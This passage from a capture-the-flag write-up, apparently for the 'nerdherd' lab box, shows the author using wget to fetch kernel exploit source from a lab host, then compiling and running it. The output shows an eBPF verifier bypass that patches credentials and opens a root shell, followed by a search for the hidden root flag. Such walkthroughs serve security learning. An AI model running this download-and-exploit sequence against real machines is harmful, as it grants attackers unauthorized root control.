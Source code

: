 ```
chuck@nerdherd:/tmp$ wget http://10.18.61.134/45010.c

chuck@nerdherd:/tmp$ gcc 45010.c -o 45010
chuck@nerdherd:/tmp$ ./45010 
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff88000f262f00
[*] Leaking sock struct from ffff88000e517800
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff880019e78f00
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff880019e78f00
[*] credentials patched, launching shell...
# whoami;hostname;id;ip a
root
nerdherd
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),1000(chuck)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:dc:d9:0b:1e:0d brd ff:ff:ff:ff:ff:ff
    inet 10.10.52.70/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::dc:d9ff:fe0b:1e0d/64 scope link 
       valid_lft forever preferred_lft forever
```

And I'm root! :D

# Rooted

**root.txt:**
```
# cat /root/root.txt
cmon, wouldnt it be too easy if i place the root flag here?
```

Hmm... Let's `find` where the root flag lives.

**.root.txt:**
```
# find / -type f -name "*root.txt*" 2>/dev/null
/root/root.txt
/opt/.root.txt

# cat /opt/.root.txt
nOOt nOOt! you've found the real flag, congratz!

THM{Redacted}
```
